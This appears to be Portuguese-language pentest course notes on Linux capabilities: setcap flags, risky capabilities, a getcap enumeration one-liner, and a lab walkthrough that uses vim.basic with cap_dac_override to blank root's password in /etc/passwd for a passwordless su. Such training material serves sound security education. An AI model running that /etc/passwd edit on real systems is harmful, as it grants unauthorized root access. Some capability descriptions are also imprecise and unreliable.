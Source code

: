 Os Linux Capabilities permitem conceder privilégios específicos a processos, proporcionando um controle mais refinado e seguro do que o modelo tradicional Unix de concessão de privilégios.

No entanto, eles não são invulneráveis e podem ser explorados por invasores, especialmente se processos com capacidades não estiverem isolados adequadamente. O uso indevido ou excessivo de capabilities também pode criar riscos de segurança, pois pode conceder a processos mais privilégios do que necessário, aumentando o potencial de exploração. Portanto, é essencial usar capabilities do Linux com cuidado para evitar vulnerabilidades.

No Ubuntu, por exemplo, podemos usar o comando `setcap` para definir capabilities para executáveis ​​específicos. Este comando nos permite especificar a capability que queremos definir e o valor que queremos atribuir.

Por exemplo, poderíamos usar o seguinte comando para definir a capability `cap_net_bind_service` de um executável:

#### Set Capability
```shell-session
NycolasES6@htb[/htb]$ sudo setcap cap_net_bind_service=+ep /usr/bin/vim.basic
```

Ao definir capabilities para um binário, o binário será capaz de executar ações que não seria capaz de executar. Por exemplo, se a capability `cap_net_bind_service` for definida para um binário, o binário será capaz de se vincular a portas de rede, o que é um privilégio geralmente restrito.

Alguns recursos, como `cap_sys_admin`, que permite que um executável execute ações com privilégios administrativos, podem ser perigosos se não forem usados ​​corretamente.

| **Capability**         | **Descrição**                                                                                                                                                                |
| ---------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `cap_sys_admin`        | Permite executar ações com privilégios administrativos, como modificar arquivos do sistema ou alterar configurações do sistema.                                              |
| `cap_sys_chroot`       | Permite alterar o diretório raiz do processo atual, permitindo que ele acesse arquivos e diretórios que, de outra forma, seriam inacessíveis.                                |
| `cap_sys_ptrace`       | Permite anexar e depurar outros processos, potencialmente permitindo que ele obtenha acesso a informações confidenciais ou modifique o comportamento de outros processos.    |
| `cap_sys_nice`         | Permite aumentar ou diminuir a prioridade dos processos, permitindo potencialmente obter acesso a recursos que, de outra forma, seriam restritos.                            |
| `cap_sys_time`         | Permite modificar o relógio do sistema, o que pode permitir que ele manipule registros de data e hora ou faça com que outros processos se comportem de maneiras inesperadas. |
| `cap_sys_resource`     | Permite modificar os limites de recursos do sistema, como o número máximo de descritores de arquivos abertos ou a quantidade máxima de memória que pode ser alocada.         |
| `cap_sys_module`       | Permite carregar e descarregar módulos do kernel, o que pode permitir modificar o comportamento do sistema operacional ou obter acesso a informações confidenciais.          |
| `cap_net_bind_service` | Permite vincular-se a portas de rede, o que lhe permite obter acesso a informações confidenciais ou executar ações não autorizadas.                                          |

Quando um binário é executado com capabilities, ele pode executar as ações que as capabilities permitem. No entanto, ele não poderá executar nenhuma ação não permitida pelas capabilities. Isso permite um controle mais refinado sobre os privilégios do binário e pode ajudar a evitar vulnerabilidades de segurança e acesso não autorizado a informações confidenciais.

Ao usar o comando `setcap` para definir capabilities para um executável no Linux, precisamos especificar a capability que queremos definir e o valor que queremos atribuir. Os valores que usamos dependerão da capability específica que estamos definindo e dos privilégios que queremos conceder ao executável.

Aqui estão alguns exemplos de valores que podemos usar com o comando `setcap`, juntamente com uma breve descrição do que eles fazem:

| **Valores de Capability** | **Descrição**                                                                                                                                                                                                                                                                                                                                                                                                  |
| ------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `=`                       | Este valor define a capability especificada para o executável, mas não concede nenhum privilégio. Isso pode ser útil se quisermos limpar uma capacidade definida anteriormente para o executável.                                                                                                                                                                                                              |
| `+ep`                     | Este valor concede os privilégios efetivos e permitidos para a capability especificada ao executável. Isso permite que o executável execute as ações que a capability permite, mas não permite que ele execute quaisquer ações que não sejam permitidas pela capacidade.                                                                                                                                       |
| `+ei`                     | Este valor concede privilégios suficientes e herdáveis ​​para a capability especificada ao executável. Isso permite que o executável execute as ações que a capability permite e que os processos filhos gerados pelo executável herdem a capability e executem as mesmas ações.                                                                                                                               |
| `+p`                      | Este valor concede os privilégios permitidos para a capability especificada ao executável. Isso permite que o executável execute as ações que a capability permite, mas não permite que ele execute nenhuma ação que não seja permitida pela capability. Isso pode ser útil se quisermos conceder a capability ao executável, mas impedir que ele herde a capacidade ou permita que processos filhos a herdem. |

Vários recursos do Linux podem ser usados ​​para escalar os privilégios de um usuário para `root`, incluindo:

| **Capability**     | **Descrição**                                                                                                                                                                                                                          |
| ------------------ | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `cap_setuid`       | Permite que um processo defina seu ID de usuário efetivo, que pode ser usado para obter os privilégios de outro usuário, incluindo o `root`usuário.                                                                                    |
| `cap_setgid`       | Permite definir seu ID de grupo efetivo, que pode ser usado para obter privilégios de outro grupo, incluindo o `root`grupo.                                                                                                            |
| `cap_sys_admin`    | Esse capability fornece uma ampla gama de privilégios administrativos, incluindo a capacidade de executar muitas ações reservadas ao `root`usuário, como modificar configurações do sistema e montar e desmontar sistemas de arquivos. |
| `cap_dac_override` | Permite ignorar verificações de permissão de leitura, gravação e execução de arquivos.                                                                                                                                                 |

## Enumeração de capabilities
Esses recursos devem ser usados ​​com cautela e concedidos somente a processos confiáveis, pois podem ser mal utilizados para obter acesso não autorizado ao sistema.

Para enumerar todos os recursos existentes para todos os executáveis ​​binários existentes em um sistema Linux, podemos usar o seguinte comando:

#### Enumerando Capacidades
```shell-session
NycolasES6@htb[/htb]$ find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;

/usr/bin/vim.basic cap_dac_override=eip
/usr/bin/ping cap_net_raw=ep
/usr/bin/mtr-packet cap_net_raw=ep
```

Este one-liner usa o comando `find` para procurar todos os executáveis ​​binários nos diretórios onde eles estão tipicamente localizados e então usa o sinalizador `-exec` para executar o comando `getcap` em cada um, mostrando os recursos que foram definidos para aquele binário.

## Exploração
Se obtivermos acesso ao sistema com uma conta de baixo privilégio, descobriremos a capability `cap_dac_override` :

### Explorando Capabilities
```shell-session
NycolasES6@htb[/htb]$ getcap /usr/bin/vim.basic

/usr/bin/vim.basic cap_dac_override=eip
```

Por exemplo, o binário `/usr/bin/vim.basic` é executado sem privilégios especiais, como com `sudo`. No entanto, como o binário tem o conjunto de capacidades `cap_dac_override`, ele pode escalar os privilégios do usuário que o executa. 

Isso permitiria que o testador de penetração ganhasse a capability `cap_dac_override` e executasse tarefas que exigem essa capability.

Vamos dar uma olhada no arquivo `/etc/passwd` onde o usuário `root` é especificado:

```shell-session
NycolasES6@htb[/htb]$ cat /etc/passwd | head -n1

root:x:0:0:root:/root:/bin/bash
```

Podemos usar a capability `cap_dac_override` do `/usr/bin/vim` binário para modificar um arquivo de sistema:

```shell-session
NycolasES6@htb[/htb]$ /usr/bin/vim.basic /etc/passwd
```

Também podemos fazer essas alterações em um modo não interativo:

```shell-session
NycolasES6@htb[/htb]$ echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd
NycolasES6@htb[/htb]$ cat /etc/passwd | head -n1

root::0:0:root:/root:/bin/bash
```

Agora, podemos ver que o `x` naquela linha desapareceu, o que significa que podemos usar o comando `su` para efetuar login como root sem que seja solicitada a senha.
